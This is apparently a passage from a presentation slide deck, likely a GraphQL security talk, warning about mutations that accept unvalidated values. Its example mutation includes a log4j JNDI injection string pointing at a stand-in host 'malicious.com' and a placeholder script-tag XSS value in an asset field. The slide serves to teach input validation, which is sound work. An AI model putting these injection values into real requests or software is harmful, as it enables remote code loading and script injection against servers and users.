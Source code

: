 </v-click>

</div>

</div>

---

<img src="/assets/kili-logo.png" class="h-10" style="position: absolute; top: 40px; left: 850px;"/>

# Mutate with non authorized values

<div grid="~ cols-2 gap-4">

<div>

```graphql {1,16|2-3|5-10|none}
mutation {
  # This can corrupt your database #log4j
  changeEmail(email: "${jndi:ldap://malicious.com/file}")

  # This is dangerous for your users
  createAsset(content:
    "<script>
      This is malicious JavaScript code
    </script>"
  )
}

```

</div>
